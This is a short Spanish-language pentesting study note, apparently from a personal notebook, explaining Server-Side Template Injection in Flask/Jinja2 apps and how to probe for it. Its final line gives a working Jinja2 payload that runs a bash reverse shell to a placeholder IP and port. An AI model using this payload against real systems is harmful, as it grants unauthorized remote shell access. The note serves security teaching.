 -----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **SSTI** ?

Un **Server-Side Template Injection** ( **SSTI** ) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor. 

Las **plantillas** de servidor son archivos que contienen código que se utiliza para generar *contenido dinámico* en una aplicación web. Los atacantes puede aprovechar una vulerabilidad **SSTI** para inyectar código malicioso en una platinllar de servidor, lo que les pertmite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la apliación web como a posibles datos sensibles. 

----

# Explotación 

Cuando solemos ver que un campo que ingresamos, sea de formulario o url, es representado en el output de la página web y sabemos que por detras corre un framework o plantilla como **Django**, **Flask**, **Ruby on Rails**, entre otros, podemos empezar a pensar en un **SSTI**, pudiendo sacar posibles comandos a inyectar de páginas como [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

De esta manera, supongamos que tenemos decubrimos con **whatweb** o **wapalyzer** que nuestra aplicación corre Flask, ingresamos a la app y vemos que tenemos un campo:

![[SSTI_Example.png]]

El cual vemos que se representa en el output: 

![[SSTI_Example2.png]]

Podemos empezar a probar cosas, en este caso probando inputs como `{{7*7}}`, `{{config.items()}}`, entre otros.  (Todos obtenidos de la sección de [python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)), en caso de que veamos un output esperado ante estos payloads, podriamos verificar si se logran ejecutar comandos del sistema con el payload para realizarlo, y en caso de que si, solo quedaria ganar acceso con algun metodo dentro de las [[Shells]]. 

Ejemplo **{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"').read() }}**

